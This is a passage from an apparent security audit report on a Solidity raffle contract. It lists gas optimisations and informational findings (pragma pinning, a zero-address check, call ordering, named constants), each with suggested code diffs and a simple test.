+    string private constant commonImageUri = "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

-    string private rareImageUri = "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
+    string private constant rareImageUri = "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

-    string private legendaryImageUri = "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
+    string private constant legendaryImageUri = "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

</details>

If the value is declared in the variable declaration, it should be made `constant`, otherwise it should be made `immutable` where it is set in the `constructor`.

### [G-2] Cache the `newPlayers.length` in the `PuppyRaffle::enterRaffle` function to reduce gas costs instead of calling from storage multiple times.

**Description:**
When assigning the `players.length` `newPlayers.length` to a variable, it will be stored in memory, and therefore will be cheaper to read from than storage.

<description>
<summary>Code</summary>

```diff
    function enterRaffle(address[] memory newPlayers) public payable {
+       uint256 newPlayersLength = newPlayers.length;

+       require(msg.value == entranceFee * newPlayersLength, "PuppyRaffle: Must send enough to enter raffle");
-       require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

-       for (uint256 i = 0; i < newPlayers.length; i++) {
+       for (uint256 i = 0; i < newPlayersLength; i++) {
            players.push(newPlayers[i]);
        }

        // Check for duplicates
+       uint256 playersLength = players.length;

-       for (uint256 i = 0; i < players.length - 1; i++) {
+       for (uint256 i = 0; i < playersLength - 1; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
+            for (uint256 j = i + 1; j < playersLength; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
        emit RaffleEnter(newPlayers);
    }
```

</details>

## Informational/Non-Critical Severity

### [I-1] `RaffleEnter` event emits in the `PuppyRaffle::enterRaffle` function if the `newPlayers` array is empty.

**Description:**
A `RaffleEnter` event is emitted when the `PuppyRaffle::enterRaffle` function is called with no new players, effectively meaning there are no new entries to the raffle.

**Impact:**
This has no impact on the protocol or functionality of the contract.
It is a waste of gas however, and you should only emit events when they are necessary.

When there are no new players, the contract is being misleading by emitting that an entry has been made.

**Proof of Concept:**
Add this test to the `PuppyRaffleTest.t.sol` where an empty array of newPlayers is passed to the `enterRaffle` function:

<details>
<summary>Code</summary>

```javascript
    event RaffleEnter(address[] newPlayers);

   function testEmptyEntryEventEmit() public playersEntered {
        address[] memory newPlayersEntered = new address[](0);

        vm.expectEmit(true, true, true, true);
        emit RaffleEnter(newPlayersEntered);

        puppyRaffle.enterRaffle{value: 0}(newPlayersEntered);
    }
```

</details>

As the test passes, we can see that the event is emitted when the `newPlayers` array is empty.

**Recommended Mitigation:**
At the beginning of the `PuppyRaffle::enterRaffle` function, check if the `newPlayers` array is empty, and if it is, return early.

```diff
    function enterRaffle(address[] memory newPlayers) public payable {
+       require(newPlayers.length > 0, "PuppyRaffle: Must have at least 1 new player.");
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        .
        .
        .
    }
```

### [I-2] Floating Pragma Version `^0.7.6` is dangerous and should be pinned to a specific version.

**Impact:**
Using a floating pragma version can open up the contract to vulnerabilities in past/future versions of within all 0.7.x versions.

**Recommended Mitigation:**
Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.7.6;`, use `pragma solidity 0.7.6;`

### [I-3] The used solidity version of `0.7.6` is missing some security features, and should be updated to a more recent version.

**Description**
solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks.

```javascript
pragma solidity ^0.7.6;
```

**Recommendation Mitigation**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

See Slither documentation for more details: [https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity](https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity)

### [I-4] Missing checks for `address(0)` when assigning `feeAddress` in constructor.

**Description:**
`PuppyRaffle::feeAddress` should not be `address(0)` as this would allow the fees to be sent to the 0 address.

**Recommendation Change**

```diff
    constructor(uint256 _entranceFee, address _feeAddress, uint256 _raffleDuration) ERC721("Puppy Raffle", "PR") {
        .
        .
        .
+       require(_feeAddress != address(0), "PuppyRaffle: Fee address cannot be 0");
        feeAddress = _feeAddress;
    }
```

### [I-5] `PuppyRaffle:selectWinner` does not follow CEI, which is not a best practice

**Description:**
It's best to keep code clean and follow best practices.

```javascript
    function selectWinner() external {
        .
        .
        .
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }
```

**Impact:**
There's no impact on the protocol as there is no vulnerability here, but it's best to follow best practices.

**Recommended Change:**

```diff
    function selectWinner() external {
        .
        .
        .
+       _safeMint(winner, tokenId);
        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
-       _safeMint(winner, tokenId);
    }
```

### [I-6] Use of magic numbers affects code readability

**Description:**
In the `PuppyRaffle:selectWinner` function, numbers are used instead of named constants.

```javascript
    function selectWinner() external {
        .
        .
        .
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
    }
```

**Impact:**
Using numbers like `80`, `20`, `100` can make the code harder to read and understand.

**Recommended Change:**
Instead of using these raw numbers in the function, make them named constant variables in the contract and use them to improve the readability of the code.

```diff
uint256 constant PRIZE_POOL_PERCENTAGE = 80;
uint256 constant FEE_PERCENTAGE = 20;
uint256 constant PERCENTAGE_DIVISOR = 100;
.
.
.
function selectWinner() external {
    .
    .
    .
-   uint256 prizePool = (totalAmountCollected * 80) / 100;
+   uint256 prizePool = (totalAmountCollected * PRIZE_POOL_PERCENTAGE) / PERCENTAGE_DIVISOR;
-   uint256 fee = (totalAmountCollected * 20) / 100;
+   uint256 fee = (totalAmountCollected * FEE_PERCENTAGE) / PERCENTAGE_DIVISOR;
}
```

This helps to make the code more readable and maintainable.
